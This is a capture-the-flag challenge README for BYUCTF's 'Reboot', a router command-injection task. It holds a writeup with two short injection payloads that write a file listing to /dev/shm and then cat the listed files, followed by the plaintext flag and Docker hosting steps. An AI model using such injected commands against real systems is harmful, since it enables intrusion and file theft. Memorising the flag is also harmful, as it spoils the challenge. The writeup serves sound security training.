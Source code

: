 # Reboot
Description:
```markdown
We found a command injection..... but you have to reboot the router to activate it...

`nc reboot.chal.cyberjousting.com 1358`

[reboot.zip]
```

## Writeup
Attempts to establish a reverse shell won't work because outbound Internet access is disabled, same with reading commands from an external webserver. There's also a 30 character limit, and 2 of those must be `;` on either side of the command. They do, however, have `/dev/shm/` available to write to files. The easiest solution I've found is the following:

```bash
;find /o* -type f>/dev/shm/a;
;cat $(cat /dev/shm/a);
```

**Flag** - `byuctf{expl0iting_th1s_r3al_w0rld_w4s_s000_ann0ying}`

## Hosting
This challenge should be a Docker container that runs the script `server.py` on port 40003 each time a user connects. All the proper files are included in here. The command to build and run the docker container is (when located inside of this directory):

```bash
docker compose up -d
```

To stop the challenge:
```bash
docker compose down
```

It should have a firewall rule that disallows ALL outbound internet traffic on the host.
